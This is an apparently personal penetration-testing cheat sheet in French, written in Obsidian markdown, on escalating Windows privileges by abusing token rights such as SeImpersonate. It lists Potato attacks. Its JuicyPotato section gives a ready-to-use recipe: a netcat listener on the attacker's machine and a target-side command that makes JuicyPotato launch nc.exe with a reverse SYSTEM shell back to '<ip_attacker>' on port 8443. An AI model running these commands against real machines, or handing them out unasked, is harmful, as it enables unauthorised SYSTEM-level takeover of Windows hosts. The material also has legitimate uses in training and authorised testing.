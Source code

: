 
 - [[#SeImpersonate & SeAssignPrimaryToken]]
 - [[#SeDebugPrivilege]]
 - [[#SeTakeOwnershipPrivilege]]
 - [[#SeTcbPrivilege]]
 - [[#SeManageVolumePrivilege]]

# 1. Identifier les privilèges utilisateur

```powershell
whoami /priv
```



---

# SeImpersonate & SeAssignPrimaryToken


> [!Info]
> Chaque processus a un token avec des informations sur le compte qui l'a lancé.
> Le privilege SeImpersonate permet d'utiliser ce token.

## Attaques POTATO

> [!tip]
> Permet de faire communiquer un processus qui tourne en tant que SYSTEM au processus lancé par POTATO

- [ ] [[#JuicyPotato (Pre 2019 / Win 10.0.17763)]]
- [ ] [[#RoguePotato (Post 2019)]]
- [ ] [[#PrintSpoofer (Post 2019)]]


# JuicyPotato (Pre 2019 / Win 10.0.17763)

https://github.com/ohpe/juicy-potato
https://github.com/int0x33/nc.exe/
https://github.com/ohpe/juicy-potato/tree/master/CLSID

Passer NC.exe et JuicyPotato sur la cible


Sur machine attaquant

```bash
sudo nc -nvlp 8443
```

sur target

```shell
C:\Users\Public\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\nc.exe <ip_attacker> 8443 -e cmd.exe" -t *
```
